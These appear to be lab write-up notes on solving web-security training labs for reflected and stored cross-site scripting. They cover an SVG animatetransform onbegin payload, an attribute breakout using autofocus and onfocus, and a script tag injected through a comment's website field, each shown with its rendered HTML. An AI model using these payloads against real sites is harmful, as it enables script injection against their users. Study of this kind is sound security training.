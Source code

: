 
## Lab - 14: Reflected XSS with some SVG markup allowed

- find with intruder and found that tags - `svg, animateTransform` are allowed and `onbegin` event is also allowed.

```html
<svg><animatetransform onbegin="alert(1)" /></svg>
```

---

# XSS in HTML tag attributes

## Lab - 15: Reflected XSS into attribute with angle brackets HTML-encoded (A)

- input `<img>` returns `&lt;img&gt;` and `<input type=text placeholder='Search the blog...' name=search value="&lt;img&gt;">`

```
" autofocus onfocus=alert(1) x="
```

- will become `<input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(1)" x="">`

---

## Lab - 16: Stored XSS into anchor href attribute with double quotes HTML-encoded

- normal return with POST NAME and POST WEBSITE fields

```html
<a id="author" href="POST WEBSITE">POST NAME</a>
```

- post to all field except email with this payload

```html
"/>
<script>
  alert(1);
</script>
```

- results look like

```html
<a id="author" href="">
  <script>
    alert(1);
  </script>
  "NAME</a
>
```

---